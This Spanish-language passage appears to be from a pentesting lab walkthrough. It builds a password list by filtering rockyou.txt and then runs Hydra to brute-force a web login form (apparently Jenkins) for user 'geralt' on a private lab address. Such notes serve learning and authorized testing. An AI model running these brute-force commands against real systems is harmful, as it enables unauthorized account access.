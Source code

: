     
    1. Nos creamos un diccionario a partir de uno ya creado aplicando filtros para que cumpla las especificaciones. Vamos a usar como base el diccionario **rockyou.txt** .
        
        ```bash
        head -n 5000 /usr/share/wordlists/rockyou.txt | grep -E ^p...a$ > dic2.txt
        ```
        
        ```bash
        cat dic2.txt 
        ```
        
        <aside>
        
        `head -n 5000 /usr/share/wordlists/rockyou.txt`: Toma las primeras 5000 líneas del archivo `rockyou.txt`, que es una lista común de contraseñas.
        
        `| grep -E ^p...a$`: Filtra las palabras que comienzan con "p", terminan con "a" y tienen exactamente cinco caracteres, usando `grep` con una expresión regular.
        
        `> dic2.txt`: Guarda el resultado en un archivo llamado `dic2.txt`.
        
        </aside>
        
        ![image.png](./imagenes/image%20193.png)
        
    
- Usamos Hydra con los diccionarios para tener acceso.
    
    ```bash
    hydra -l geralt -P dic2.txt 10.0.3.37 -s 8080 http-post-form "/j_spring_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=:c=/login:Invalid username or password" -f -V
    ```
    
    ![image.png](./imagenes/image%20194.png)
    
